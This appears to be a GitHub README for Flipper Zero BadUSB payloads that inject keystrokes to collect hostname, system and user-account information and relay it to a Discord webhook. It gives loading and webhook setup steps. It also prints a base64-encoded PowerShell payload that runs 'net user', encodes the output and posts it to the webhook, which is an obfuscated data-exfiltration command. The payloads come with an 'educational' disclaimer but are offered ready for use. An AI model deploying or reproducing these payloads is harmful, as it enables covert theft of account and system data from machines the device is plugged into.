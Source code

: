 # Flipper-Zero-BadUSB

Flipper Zero BadUSB payloads for relaying data to a Discord webhook.

## About

This repository contains a collection of payloads for the Flipper Zero, USB Rubber Ducky or similar devices. 

The idea of run the PowerShell payload in base64 was inspired by the project from [InfoSecREDD](https://github.com/InfoSecREDD/REPG).

## Disclaimer

All these payloads are designed for educational, testing, and research purposes in cybersecurity.

I am not a professional in PowerShell scripting. I am using this project to learn about DuckyScripting and its capabilities with Flipper Zero. 

Feel free to fork and contribute to the community.

## Usage

To load these payloads onto your Flipper Zero, you should copy them into the SDcard's "`badusb`" folder.

The provided script `Hostname2Disc.txt` will send the response in plain text because it's not too long (hostname).

However, in the example `SysInfo2Disc.txt` we see how the response will be sent in base64-encoded and in multiple messages as it exceeds the character limit of the POST method message.

Here are some things to consider:
* The `REM` command does not perform any keystroke injection, is just a comment.
* In each payload, remember to replace "`webhookgoeshere`" with your webhook URL for the variable `$webhook`.
* The base64-encoded code generated from the `echo` command contains the compiled PowerShell script. This can also be replaced with other PowerShell commands.

### Example

Below is an example of a PowerShell script encoded in base64 that executes the `net user` command:

Base64 code:
``JG91dHB1dCA9IG5ldCB1c2VyCiRiYXNlNjRPdXRwdXQgPSBbQ29udmVydF06OlRvQmFzZTY0U3RyaW5nKFtTeXN0ZW0uVGV4dC5FbmNvZGluZ106OlVURjguR2V0Qnl0ZXMoJG91dHB1dCkpCiRib2R5ID0gQHsKICAgIGNvbnRlbnQgPSAkYmFzZTY0T3V0cHV0Cn0gfCBDb252ZXJ0VG8tSnNvbgpJbnZva2UtUmVzdE1ldGhvZCAtVXJpICR3ZWJob29rIC1NZXRob2QgUG9zdCAtQm9keSAkYm9keSAtQ29udGVudFR5cGUgImFwcGxpY2F0aW9uL2pzb24iCg==``
